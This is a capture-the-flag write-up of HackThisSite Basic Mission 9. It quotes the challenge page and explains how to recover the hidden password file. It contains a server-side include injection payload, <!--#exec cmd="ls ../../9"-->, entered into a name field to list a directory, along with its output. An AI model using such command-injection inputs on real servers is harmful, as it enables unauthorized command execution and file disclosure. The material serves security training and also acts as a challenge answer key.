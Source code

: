 The Challenge is :

Network Security Sam is going down with the ship - he's determined to keep obscuring the password file, no matter how many times people manage to recover it. This time the file is saved in /var/www/hackthissite.org/html/missions/basic/9/.

In the last level, however, in my attempt to limit people to using server side includes to display the directory listing to level 8 only, I have mistakenly screwed up somewhere.. there is a way to get the obscured level 9 password. See if you can figure out how...

This level seems a lot trickier then it actually is, and it helps to have an understanding of how the script validates the user's input. The script finds the first occurance of '<--', and looks to see what follows directly after it. 

```html
<center>
<br><center><b>Level 9</b></center><br><br>Network Security Sam is going down with the ship - he's determined to keep obscuring the password file, no matter how many times people manage to recover it. This time the file is saved in /var/www/hackthissite.org/html/missions/basic/9/.
<br><br>In the last level, however, in my attempt to limit people to using server side includes to display the directory listing to level 8 only, I have mistakenly screwed up somewhere.. there is a way to get the obscured level 9 password. See if you can figure out how...
<br><br>This level seems a lot trickier then it actually is, and it helps to have an understanding of how the script validates the user's input. The script finds the first occurance of '<--', and looks to see what follows directly after it.
<br><br><center><b>Password:</b><br>
						 <form action="/missions/basic/9/index.php" method="post">
						 <input name="password" type="password"><br><br>
						 <input value="submit" type="submit"></form>
</center></center>
```
SO it mentioned there are some sort of filtering script but I don't see any textbox like level 8 but with a little hint that we can use level 8 to get level 9 password 

we can go back to level 8 execute the following command
```html
<!--#exec cmd="ls ../../9"-->
```
This will list the files in level 9 
```text
Hi, index.php p91e283zc3.php!

Your name contains 24 characters.
```
and our file is **p91e283zc3.php**
Now we can go back to level 9 challenge access this file from the browser and we have got our password 
